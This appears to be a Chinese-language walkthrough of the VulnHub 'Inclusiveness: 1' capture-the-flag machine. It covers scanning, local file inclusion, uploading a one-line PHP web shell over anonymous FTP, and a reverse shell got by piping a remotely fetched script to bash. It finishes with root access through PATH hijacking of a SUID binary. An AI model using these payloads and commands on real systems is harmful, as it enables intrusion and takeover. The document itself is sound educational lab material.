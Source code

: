 # inclusiveness: 1

2024-5-20 https://www.vulnhub.com/entry/inclusiveness-1,422/

difficulty: Easy

## IP

192.168.5.20

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.5.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
```

21 ftp 可以匿名登陆，看看有什么内容。

只有一个 pub 文件夹，其中什么内容都没有。但是有可能是后门 web 中的一个目录，或许到时候能上传 web shell，先放在这里。

看 80 的 web 服务上有什么信息，首页是 apache 默认页面，要使用 gobuster 进行目录扫描：

```
http://192.168.5.20/index.html           (Status: 200) [Size: 10701]
http://192.168.5.20/manual               (Status: 301) [Size: 313] [--> http://192.168.5.20/manual/]
http://192.168.5.20/javascript           (Status: 301) [Size: 317] [--> http://192.168.5.20/javascript/]
http://192.168.5.20/robots.txt           (Status: 200) [Size: 59]
http://192.168.5.20/seo.html             (Status: 200) [Size: 59]
http://192.168.5.20/norobots.txt         (Status: 200) [Size: 59]
http://192.168.5.20/robots-txt.php       (Status: 200) [Size: 59]
http://192.168.5.20/robots-txt.txt       (Status: 200) [Size: 59]
http://192.168.5.20/robots-txt.html      (Status: 200) [Size: 59]
http://192.168.5.20/robots-txt           (Status: 200) [Size: 59]
http://192.168.5.20/valid-robots.txt     (Status: 200) [Size: 59]
```

一堆 robots 连接，访问其中一个，返回内容；You are not a search engine! You can't read my robots.txt!，估计要把 UA 修改成 spider 后才能获得其中内容。

尝试把 UA 设置成 google 的爬虫，再次进行访问：

```
curl -A 'Googlebot' http://192.168.5.20/robots.txt
User-agent: *
Disallow: /secret_information/
```

得到了一个隐藏目录 /secret_information/， 访问看看有什么内容。显示了一个 DNS 传送攻击的解释，源代码中也没什么隐藏信息，继续使用 gobuster 进行扫描。还是得到了一堆 robots：

```
http://192.168.5.20/secret_information/.php                 (Status: 403) [Size: 277]
http://192.168.5.20/secret_information/index.php            (Status: 200) [Size: 1477]
http://192.168.5.20/secret_information/en.php               (Status: 200) [Size: 1331]
http://192.168.5.20/secret_information/es.php               (Status: 200) [Size: 1499]
http://192.168.5.20/secret_information/robots.txt           (Status: 200) [Size: 59]
http://192.168.5.20/secret_information/.php                 (Status: 403) [Size: 277]
http://192.168.5.20/secret_information/.html                (Status: 403) [Size: 277]
http://192.168.5.20/secret_information/norobots.txt         (Status: 200) [Size: 59]
http://192.168.5.20/secret_information/robots-txt.php       (Status: 200) [Size: 59]
http://192.168.5.20/secret_information/robots-txt.html      (Status: 200) [Size: 59]
http://192.168.5.20/secret_information/robots-txt.txt       (Status: 200) [Size: 59]
http://192.168.5.20/secret_information/robots-txt           (Status: 200) [Size: 59]
http://192.168.5.20/secret_information/valid-robots.txt     (Status: 200) [Size: 59]
```

继续修改 UA 头，进行访问：

```
curl -A 'Googlebot' http://192.168.5.20/secret_information/norobots.txt
```

都是返回 404，这里估计不是攻击方向。

在仔细看这个页面上有两个翻译的连接， http://192.168.5.20/secret_information/index.php?lang=en.php 最后的这个 lang 参数很有可能存在本地文件包含漏洞。

进行 LFI 测试：

```
curl http://192.168.5.20/secret_information/index.php?lang=/etc/passwd

root:x:0:0:root:/root:/bin/bash
...
tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash
```

证明存在 LFI 漏洞，下面就是要找到能够进行文件包含的文件，让后写入后门 php 执行代码。

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.20/secret_information/index.php?lang=FUZZ -fs 146
```

其中发现了 /etc/vsftpd.conf 这个配置配置文件，通过 LFI 读取了其中的配置信息：

```
anon_root=/var/ftp/
write_enable=YES
```

说明上传到 Ftp 中的文件，保存在 /var/ftp/ 目录中，这时，我们上传一个 shell.php 脚本，到 ftp 的 pub 目录中，内容如下：

```
<?php system($_GET[1]);?>
```

这时，在通过 curl 进行 LFI 访问：

```
curl 'http://192.168.5.20/secret_information/index.php?lang=/var/ftp/pub/shell.php&1=pwd'
```

得到了我们想要的内容：

```
<title>zone transfer</title>
<h2>DNS Zone Transfer Attack</h2>
<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

/var/www/html/secret_information
```

这时就能把我们的反弹命令写入带入执行：

```
curl -G --data-urlencode 'lang=/var/ftp/pub/shell.php' --data-urlencode '1=curl http://192.168.5.3/5.3/8888.sh|bash' http://192.168.5.20/secret_information/index.php
```

kali 上监听 8888 端口，执行上面代码后，得到了反弹的 shell，升级 tty：

```
www-data@inclusiveness:/var/www/html/secret_information$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

开始系统枚举，寻找攻击路径。sudo、cap、suid 等方向都没有发现特殊的程序。

在/home/tom 中，发现 2 个有意思的文件：

```
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
```

先看看 rootshell.c 的内容：

```
int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	    setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```

whoami 检测出我们不是 tom，程序就退出了。

发现其中的 whoami 程序调用时没有使用绝对路径，我们可以在/tmp 中创建 whoami 文件，执行时返回 tom，设置 PATH 取代系统的 whoami 执行。

```
www-data@inclusiveness:/home/tom$ cd /tmp
www-data@inclusiveness:/tmp$ echo 'echo tom' > whoami
www-data@inclusiveness:/tmp$ cat whoami
echo tom
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ chmod +x whoami
www-data@inclusiveness:/tmp$ /home/tom/rootshell
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cd /root
# ls
flag.txt
# cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |
||                |
|\~~~~~~~~~~~~~~~\
|
|
|
|
o

flag{omg_you_did_it_YAY}
```
